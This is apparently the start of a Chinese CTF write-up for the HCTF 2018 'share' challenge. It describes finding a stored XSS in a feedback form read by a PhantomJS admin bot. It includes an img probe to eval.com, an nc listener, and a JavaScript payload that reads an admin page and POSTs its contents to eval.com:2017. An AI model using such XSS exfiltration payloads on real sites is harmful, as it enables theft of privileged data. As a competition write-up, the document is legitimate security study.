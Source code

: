 开始做这道题，本来是因为疑似XSS，勾起了自己的兴趣。没想到越往后越坑。ruby真心没见过。最终耗时27小时，终于搞出来了，话说一血还是很开心的。

## 解题

首先分析一波整到题目，按照题目描述，这个网站是用来共享应用的。

首先用户可以向管理员反馈建议，让管理员将某应用加到网站上。

![20181111154191320686524.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141244-f830b9b0-e641-1.png)

然后管理员页面会有上传应用到网站上，以及将某应用下发给某人进行测试。

主要页面如下：

> 用户：
>
> 应用展示页：http://share.2018.hctf.io/home/publiclist
>
> 测试应用页：http://share.2018.hctf.io/home/Alphatest（管理员未下发应用时为空）
>
> 反馈建议页：http://share.2018.hctf.io/home/share

通过用户反馈页面，可以尝试插入xss。在这里用img进行测试:

```html
<img src=//eval.com:2222>
```

然后在eval.com进行监听。

```bash
nc -lnvp 2222
```

![20181111154191380138997.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141245-f870d6e4-e641-1.png)

成功收到回显，可以得知采用PhantomJS作为bot，然后尝试读取后台源码。

```js
function send(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "//eval.com:2017", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.send(e);
}
function getsource(src){
	var t = new XMLHttpRequest;
    t.open("GET", src, !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.onload=function(e){
    	send(e.target.responseText);
    }
    t.send();
}
getsource("/home/publiclist");
```

